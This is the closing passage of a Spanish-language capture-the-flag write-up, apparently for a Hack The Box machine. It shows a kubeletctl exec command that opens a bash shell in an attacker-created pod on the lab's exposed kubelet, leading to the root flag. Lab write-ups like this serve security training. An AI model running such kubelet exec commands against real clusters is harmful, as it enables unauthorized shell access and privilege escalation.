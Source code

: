 Con el comando que ejecutamos anteriormente hacia el pod nginx para obtener una shell, lo modificaremos para que apunte a nuestro pod:

```
kubeletctl -s 10.10.11.133 exec "/bin/bash" -p zelpro-pod -c zelpro-pod
```

<figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2F53u2a8UHeiQdbGyn8gpO%2F6.png?alt=media&#x26;token=6580eca2-9e60-4d1e-a867-1c69b3823157" alt=""><figcaption></figcaption></figure>

Y ya tendríamos la root flag.

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/446)

---
